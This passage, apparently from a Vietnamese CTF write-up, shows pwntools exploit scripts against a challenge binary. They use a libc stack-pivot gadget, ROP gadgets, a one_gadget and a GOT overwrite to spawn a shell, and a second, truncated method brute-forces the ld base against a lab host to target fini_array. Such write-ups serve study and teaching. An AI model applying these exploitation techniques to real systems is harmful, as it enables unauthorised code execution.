 ```0x00000000000a0265: add rsp, 0x58; ret;``` đây sẽ là gadget thích hợp nhất để pivot stack
stackpivot = libc.address + 0x00000000000a0265 # add rsp, 0x58; ret

p.sendafter(b"how the stack works",p64(poprsiret))
p.sendafter(b"how the stack works",p64(poprdxret))
p.sendafter(b"how the stack works",p64(onegadget))

p.recvuntil(b"Show your skills")

input()
p.sendlineafter(b">",hex(got+152))
p.sendlineafter(b">",p64(stackpivot))

p.interactive()
```

sever down ròi nên lấy shell ở local thoai

![image](https://hackmd.io/_uploads/rJIdceuDyl.png)

![image](https://hackmd.io/_uploads/Bk3K5g_vkg.png)

ref : 
https://hackmd.io/@pepsipu/SyqPbk94a#setcontext32


### cách 2 : 

cách này thì mình research hoài chưa hiểu nên tạm để đây :))) 

```
from pwn import *
import random

libc = ELF("libc.so.6")

while True:
    for off in range(0x202, 0x500):
        try:
        
            # off = random.randint(0x200, 0x4ff)
            off = hex(off)[2:]
            off = "0x" + off + "000"
            off = int(off, 16)
            r = remote("172.31.2.2", 36902)
            # r = process("./chal")
            # r = remote("172.18.0.2", 36902)
            # off = int(input())
            r.recvuntil(b": ")
            k = r.recvline().strip().decode()
            # off = 0x230000
            libc_base = int(k, 16) - libc.symbols["puts"]
            ld_base = libc_base + off
            print(hex(off))
            if(libc_base < 0):
                print(k, int(k, 16) - libc.symbols["puts"])
            print(hex(libc_base))
            print(hex(ld_base))
            l_addr_off = 0x3b2e0
            fini_array_off = 0x3d98

            l_addr = ld_base + l_addr_off
            print(hex(l_addr))

            # print(hex(libc.address))
            r.sendlineafter(b"> ", b"aaaaaaa")
```